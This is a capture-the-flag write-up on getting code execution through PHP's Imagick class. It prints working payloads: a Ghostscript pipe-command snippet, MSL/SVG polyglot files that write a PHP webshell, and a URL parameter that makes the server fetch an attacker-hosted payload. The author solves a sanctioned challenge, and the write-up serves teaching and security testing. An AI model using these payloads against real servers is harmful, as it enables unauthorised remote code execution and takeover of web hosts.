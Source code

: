 # PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.

I encourage you to first try it out, the URL is https://goldfish-tj6gf.ondigitalocean.app/index.html.

## The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".
![Landing page](Landing_page.png)

Uploading an image does not display your selected image, but it does open *an* image. 
![Upload page](upload_image.png)

Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

## File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
## But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

## LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.
![RCE success](upload_successful.png)

But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

##Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.

**(Mini challenge can you find the flag! go for it!).**

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.
![Dockerfile](Dockerfile.png)

Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
